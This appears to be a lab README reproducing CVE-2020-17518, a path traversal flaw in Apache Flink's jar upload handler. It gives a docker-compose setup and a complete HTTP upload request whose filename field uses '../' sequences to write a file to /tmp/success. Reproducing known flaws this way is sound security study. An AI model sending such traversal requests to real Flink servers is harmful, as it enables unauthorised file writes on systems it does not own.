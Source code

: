 # Apache Flink Upload Path Traversal (CVE-2020-17518)

Apache Flink is an open source stream processing framework with powerful stream- and batch-processing capabilities.

Apache Flink 1.5.1 introduced a REST handler that allows you to write an uploaded file to an arbitrary location on the local file system, through a maliciously modified HTTP HEADER.

References:

- https://github.com/apache/flink/commit/a5264a6f41524afe8ceadf1d8ddc8c80f323ebc4
- https://nvd.nist.gov/vuln/detail/CVE-2020-17518

## Environment Setup

Execute following commands to start a Apache Flink jobmanager 1.11.2:

```
docker-compose up -d
```

After the Apache Flink is started, visit `http://your-ip:8081` to view the homepage.

## Exploit

Use following request to upload a file to `/tmp/success`:

```
POST /jars/upload HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

test123
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

![](1.png)